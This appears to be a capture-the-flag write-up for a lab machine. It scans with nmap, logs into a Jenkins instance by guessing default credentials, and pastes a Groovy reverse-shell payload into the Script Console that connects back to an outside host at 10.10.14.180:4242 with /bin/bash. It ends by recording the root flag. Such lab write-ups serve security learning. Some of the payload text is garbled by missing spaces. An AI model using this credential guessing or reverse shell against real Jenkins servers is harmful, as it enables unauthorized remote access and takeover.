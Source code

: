 ## ** Machine IP **
> 10.129.93.180
## ** Inference **
1. Nmap Scan `nmap -sC -sV 10.129.93.180`
2. *Jetty 9.4.39.v20210325* open on port 8080
3. Opened `10.129.93.180:8080` in browser. Offered a login screen with Jetty service.
4. Used Default credentials 
	admin:password<br>
	admin:admin<br>
	root:root<br>
	root:password<br>
	admin:admin1<br>
	admin:password1<br>
	root:password1<br>
5. Signed in with credential
	**username**:root<br>
	**password**:password<br>
6. Using jenkins Version `Jenkins 2.289.1`
7. Manage Jenkine > Script Console
8. Accepts only grrovy script So used the following payload
	String host="10.10.14.180";<br>
	int port=4242;<br>
	String cmd="/bin/bash";<br>
	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=newSocket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStreampo=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
## **Result**
Root Flag found in `/root/flag.txt` :- *9cdfb439c7876e703e307864c9167a15*